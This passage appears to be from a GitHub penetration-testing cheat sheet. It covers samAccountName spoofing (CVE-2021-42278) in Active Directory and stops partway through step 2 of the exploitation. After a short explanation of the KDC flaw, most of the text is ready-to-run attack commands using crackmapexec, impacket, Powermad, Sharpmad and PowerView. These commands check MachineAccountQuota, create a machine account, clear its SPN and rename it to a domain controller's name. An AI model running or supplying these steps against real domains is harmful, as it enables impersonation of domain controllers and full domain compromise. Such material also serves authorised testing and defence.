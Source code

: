 
### samAccountName spoofing

> During S4U2Self, the KDC will try to append a '\$' to the computer name specified in the TGT, if the computer name is not found. An attacker can create a new machine account with the sAMAccountName set to a domain controller's sAMAccountName - without the '\$'. For instance, suppose there is a domain controller with a sAMAccountName set to 'DC\$'. An attacker would then create a machine account with the sAMAccountName set to 'DC'. The attacker can then request a TGT for the newly created machine account. After the TGT has been issued by the KDC, the attacker can rename the newly created machine account to something different, e.g. JOHNS-PC. The attacker can then perform S4U2Self and request a ST to itself as any user. Since the machine account with the sAMAccountName set to 'DC' has been renamed, the KDC will try to find the machine account by appending a '$', which will then match the domain controller. The KDC will then issue a valid ST for the domain controller.

**Requirements**

* MachineAccountQuota > 0

**Check for exploitation**

0. Check the MachineAccountQuota of the account
  ```powershell
  crackmapexec ldap 10.10.10.10 -u username -p 'Password123' -d 'domain.local' --kdcHost 10.10.10.10 -M MAQ
  StandIn.exe --object ms-DS-MachineAccountQuota=*
  ```
1. Check if the DC is vulnerable
  ```powershell
  crackmapexec smb 10.10.10.10 -u '' -p '' -d domain -M nopac
  ```

**Exploitation**

0. Create a computer account
    ```powershell
    impacket@linux> addcomputer.py -computer-name 'ControlledComputer$' -computer-pass 'ComputerPassword' -dc-host DC01 -domain-netbios domain 'domain.local/user1:complexpassword'

    powermad@windows> . .\Powermad.ps1
    powermad@windows> $password = ConvertTo-SecureString 'ComputerPassword' -AsPlainText -Force
    powermad@windows> New-MachineAccount -MachineAccount "ControlledComputer" -Password $($password) -Domain "domain.local" -DomainController "DomainController.domain.local" -Verbose

    sharpmad@windows> Sharpmad.exe MAQ -Action new -MachineAccount ControlledComputer -MachinePassword ComputerPassword
    ```
1. Clear the controlled machine account `servicePrincipalName` attribute
    ```ps1
    impacket@linux> addspn.py -u 'domain\user' -p 'password' -t 'ControlledComputer$' -c DomainController

    powershell@windows> . .\Powerview.ps1
    powershell@windows> Set-DomainObject "CN=ControlledComputer,CN=Computers,DC=domain,DC=local" -Clear 'serviceprincipalname' -Verbose
    ```
2. (CVE-2021-42278) Change the controlled machine account `sAMAccountName` to a Domain Controller's name without the trailing `$`
    ```ps1
    # https://github.com/SecureAuthCorp/impacket/pull/1224
    impacket@linux> renameMachine.py -current-name 'ControlledComputer$' -new-name 'DomainController' -dc-ip 'DomainController.domain.local' 'domain.local'/'user':'password'
